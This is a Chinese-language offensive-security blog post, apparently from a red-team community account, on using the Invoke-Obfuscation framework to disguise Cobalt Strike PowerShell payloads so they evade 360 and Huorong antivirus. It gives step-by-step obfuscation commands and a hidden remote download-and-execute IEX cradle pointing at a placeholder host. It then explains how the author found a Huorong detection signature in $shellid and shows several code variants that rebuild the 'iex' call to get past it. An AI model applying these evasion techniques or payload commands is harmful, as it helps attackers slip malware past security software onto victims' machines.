


powershell的免杀⽅法有很多，对代码进⾏编码是最常⻅的⼀种，这⾥介绍⼀个专⻔⽤来对powershell进⾏编码免杀的框架Invoke

Obfuscation，这也是著名的**APT32**组织**海莲花**常⽤的⼀个⼯具。

该工具可以对powershell代码进行 ASCII/hex/octal/binary/SecureString进行加密混淆

Invoke-Obfuscation主要是对ps1脚本进⾏免杀

该项目可以对powershell进行混淆免杀，类似veil，然后有ps2exe，将免杀的ps1转为exe，可能不太好用。


执行如下命令，导入模块

```
Powershell -ExecutionPolicy Bypass  # 管理员执行
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation
```


报错不用管，再导入一次。


支持的加密功能列表


 

- `TOKEN`支持分部分混淆
- `STRING`整条命令混淆
- `COMPRESS`将命令转为单行并压缩，
- `ENCODING`编码
- `LAUNCHER`选择执行方式。

```
help 查看参数
```


将刚才cs生成的payload.ps1放在刚才的文件夹


##### 混淆文件

执行命令进行混淆

```
set scriptpath "C:\d\tools\miansha\Invoke-Obfuscation-Bypass-main\Invoke-Obfuscation-Bypass-main\Inv
oke-Obfuscation-Bypass\payload.ps1"     # 相对路径绝对路径都可以
token  # 部分混淆
all
1
out 1.ps1     # 结果输出文件
```


结果：


使用

```
powershell -windowstyle hidden 1.ps1 # 后台执行
```

可以过360云查杀，但但是过不了，火绒


**使用全编码encoding**

```
set scriptpath "C:\d\tools\miansha\Invoke-Obfuscation-Bypass-main\Invoke-Obfuscation-Bypass-main\Inv
oke-Obfuscation-Bypass\payload.ps1"     # 相对路径绝对路径都可以
encoding  # 部分混淆
1
out 2.ps1     # 结果输出文件
```


可以免杀360云查杀


火绒不行


实测8种encoding方法，火绒都有标记，感觉是某些特定字段hash匹配的，所以打算分析一下原理，一方面分析工具原理方便魔改，另外一方面，为了免杀。

> 注：测试中encoding-4 在win10上上线比较慢，要耐心等待，有请求但是没有正常上线，win7可以 ，其他方法大家自己实测。


##### 混淆powershell语句

生成powershell


```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"
```

下载并用powershell进入项目目录执行：`Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation`
如果报错请先执行：`Set-ExecutionPolicy Unrestricted`


输入要混淆的PS：

```
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
```


输入`ENCODING`选择要编码的方式：


**结果输出文件**

```
out 2.ps1     # 结果输出文件
```


##### 修改

对上面生成的马可以过360 defender，但是无法过火绒

所以分析一下生成的代码，开头有个$shellid


随便改成xxx，然后就可以过360云查杀，火绒也不杀了，原来火绒是识别的这个特征


那就，打印一下$shellid，看一下是什么


发现是`i`和`e`


然后打印一下$shellid，powershell是不区分大小写的，发现是从字符串`Microsoft.PowerShell`中取指定字符



反正就要指定字符，那就通过

- 变量传递过去
- 也可以通过函数嵌套子函数return结果传递过去
- switch case
- if if 嵌套
- 两个字符xor
- 等等

方法很多上面的方法可以结合一起使用，很好绕过。

简单写几个

```java
$x='i'
$y='e'
& ( $x +$y+'X')(( ......
```


```java
function x()
{
    function y(){
        return 'i'+'e'
    }
    return y
}
#x
& (x+'X')(( ......
```


```java
function z([int]$zz){

    switch($zz){

        1 {return 'i'+'e'}
        Default {return 0} 

    }
}
#z(1)
& (z(1)+'X')(( ......
```


然后测试可以正常上线，环境全为联网状态


然后执行命令也没问题。

##### 分析工具


发现工具是进行了一个匹配替换，可以将这些位置修改成上面的任意一种方法，这样特征可以去掉一些了，当然也可以生成后自己手动修改。

然后也可以进行自定义加密算法，对内容进行加密，然后IEX执行。


##### 最后

工具链接：

文章的初衷不是为了大家如何去用，只知道套用，因为没有永恒的免杀，而是想让大家知道其中的原理，这种语言免杀绕过的原理方法，这样大家可以将前辈的方法转化为自己的思路，我们掌握的思路将多种方法融合，就是一种新的方法。

最后说一下想法：

> 1 可以对这个工具进行魔改，去掉他的特征，那这个工具还可以用，当然生成后手动改也可以。
>
> 2 分析目录大家可以看出作者将每种方法都放到了一个单独的ps1文件，那么可以分析一下如何调用使用，可以将文件剥离提取出来，以后可以用在自己的免杀方式上。


大家一直说只是过静态动态上线，不能执行命令，而且即使你过了动静态查杀，无法通过调用powershell.exe去执行脚本上线，所以特意截了张图，在有火绒 360全家桶的联网环境下，去用powershell 执行命令，上线也是可以的，方法有很多，有些方法很简单，星球的评论中有说，感兴趣的大家去星球看吧。





免责声明：

利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

只供对已授权的目标使用测试，对未授权目标的测试作者不承担责任，均由使用本人自行承担。


感兴趣的可以关注公众号回复“**加群**”，添加Z2OBot 小K自动拉你加入**Z2O安全攻防交流群**分享更多好东西。


团队建立了知识星球，不定时更新最新漏洞复现，手把手教你，同时不定时更新POC、内外网渗透测试骚操作。感兴趣的可以加一下。


